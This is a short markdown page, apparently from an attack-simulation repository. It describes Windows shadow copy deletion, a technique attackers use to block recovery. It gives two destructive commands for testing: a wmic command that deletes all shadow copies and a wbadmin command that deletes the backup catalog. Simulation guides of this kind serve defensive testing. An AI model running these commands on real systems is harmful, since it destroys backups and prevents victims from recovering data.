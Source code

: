 # Shadow Copy Delete

Shadow Copy Deletion is a technique where attackers delete or disable built-in Windows shadow copies and recovery services. This prevents system recovery by denying access to backups, making it significantly more challenging for victims to restore corrupted or encrypted data.

## Simulation

Run the following commands in PowerShell / Windows Command Prompt as Administrator on a test device.

### Delete Shadow Copy

```dos
wmic.exe shadowcopy delete /nointeractive
```

### Delete Windows Backup Catalog

```dos
wbadmin delete catalog -quiet
```
